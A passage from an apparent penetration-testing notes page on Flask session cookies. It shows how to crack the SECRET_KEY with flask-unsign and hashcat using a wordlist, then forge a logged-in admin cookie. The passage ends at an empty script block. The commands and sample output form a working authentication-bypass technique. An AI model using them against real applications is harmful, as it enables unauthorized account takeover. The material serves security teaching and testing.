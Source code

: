 ## Session Cookie

If you have a `SECRET_KEY` of the Flask application, you can forge your own `session=` cookies. This can be useful to bypass authentication or even try injection attacks inside the session's parameters.&#x20;

### Brute-Force

{% code title="Install" %}
```
pip install flask-unsign
```
{% endcode %}

<pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session"><strong>$ flask-unsign --wordlist /list/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiajByMmFuIn0.Yu6Z8A._RI4cQ2NSYW2epWYt-mR5cfkg0U' --no-literal-eval
</strong>[*] Session decodes to: {'logged_in': True, 'username': 'j0r2an'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17152 attempts
b'secret123'
</code></pre>

You can also speed this up significantly using [#hashcat](../../cryptography/hashing/cracking-hashes.md#hashcat "mention"), as can crack and even automatically detect Flask Session Cookies.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ hashcat eyJsb2dnZWRfaW4iOmZhbHNlfQ.XD88aw.AhuKIwFPpzGDFLVbTcsmgEJu-s4 /list/rockyou.txt 
</strong>...
29100 | Flask Session Cookie ($salt.$salt.$pass) | Network Protocol

eyJsb2dnZWRfaW4iOmZhbHNlfQ.XD88aw.AhuKIwFPpzGDFLVbTcsmgEJu-s4:CHANGEME
</code></pre>

{% hint style="warning" %}
Note that I have not always had successful results with hashcat. If you run into "No hash-mode matches the structure of the input hash" errors, try `flask-unsign` or manually set up the HMAC signature for hashcat to crack (see [cracking-signatures.md](../../cryptography/hashing/cracking-signatures.md "mention") for some  similar examples)
{% endhint %}

### Forging Session

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
</strong>eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YvlBnA.yo-Ef_eiy_aeDBgBK-cQdcu-nRw
</code></pre>

{% hint style="warning" %}
**Tip**: When put in a script it might need the `--legacy` argument to get correct timestamps. This depends on the Flask version
{% endhint %}

#### Scripted Forging

Using a Python script you can automate this forging process to forge lots of values and find different responses. For example:

<details><summary>find_users.py</summary></details>

